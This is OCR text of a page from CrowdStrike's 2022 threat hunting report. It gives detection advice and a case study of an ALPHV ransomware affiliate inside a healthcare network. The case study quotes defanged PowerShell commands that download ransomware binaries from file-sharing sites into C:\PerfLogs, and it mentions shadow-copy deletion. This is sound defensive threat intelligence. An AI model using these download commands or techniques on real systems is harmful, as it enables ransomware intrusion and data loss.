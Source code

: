 Be suspicious of activity originating from non\-standard locations. Adversaries routinely 
use non\-standard directories to stage or execute their files or store the output of their 
tooling. Monitor for the download and execution of scripts from non\-standard locations. 
Any associated requests that include obfuscated or encoded command lines may be a sign 
that the adversary is attempting to acquire binaries covertly.
Audit external services to identify internet\-accessible entry points. Adversaries, 
including Phobos affiliates described in this case study, will attempt to exploit any external 
services. If services are improperly configured, this could allow an adversary an easy 
foothold into the environment. Any user accounts with weak credentials could be low\-
hanging fruit for adversaries to exploit and operate beneath.
25 
 For more on the SEARCH methodology, see https://www.youtube.com/watch?v\=YxcnI\_ZjQAA and https://
www.crowdstrike.com/resources/crowdcasts/dont\-wait\-to\-be\-a\-cyber\-victim\-search\-for\-hidden\-threats/. 
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
49
OverWatch Identifies Interactive 
ALPHV Affiliate
In another recent intrusion in the healthcare industry, OverWatch 
uncovered RaaS activity by an affiliate of the ALPHV ransomware 
(also known as BlackCat). OverWatch uncovered the early stages 
of this intrusion after seeing suspicious activity under the service 
accounts of three Windows systems. The adversary was operating 
over ScreenConnect remote access software, and OverWatch quickly 
picked up on suspicious reconnaissance and tool transfer activity. The 
adversary used PowerShell to acquire ALPHV binaries from multiple 
public file\-sharing sites and store them into the \\PerfLogs directory.
powershell Invoke\-WebRequest \-Uri ‘https\[:]//
filetransfer\[.]io/data\-package/L8pJUgcE/download’ 
\-OutFile C:\\PerfLogs\\HillSouthInYourMouth.exe
powershell Invoke\-WebRequest \-Uri 
‘https\[:]//wetransfer\[.]com/downloads/
e43s1a1864198f6cc9dd99df3f77d0820220469150915/bff4f7’ 
\-OutFile C:\\PerfLogs\\hi3\.exe
Next, the adversary executed one of these ALPHV binaries, which carried 
out a number of operations that OverWatch recognized as inline with 
pre\-ransomware activity. These included the creation of a new user 
account, which was then added to the administrators permission group to 
facilitate persistent access. Following this were attempts to delete volume 
shadow copies; however, the Falcon platform prevented these attempts 
from succeeding. This popular eCrime technique is employed to inhibit 
recovery from auto\-backups with the goal of amplifying the pressure on 
victims to meet ransom demands. 
INITIAL ACCESS
Afliate 
discovered 
operating over 
ScreenConnect 
remote access 
software
COMMAND AND CONTROL
Afliate uses 
PowerShell to acquire 
ALPHV binaries from 
multiple public ﬁle\- 
sharing sites and store 
them into the \\PerfLogs 
directory
INITIAL ACCESS
INITIAL ACCESS
Afliate gains 
access to an RDP 
session via 
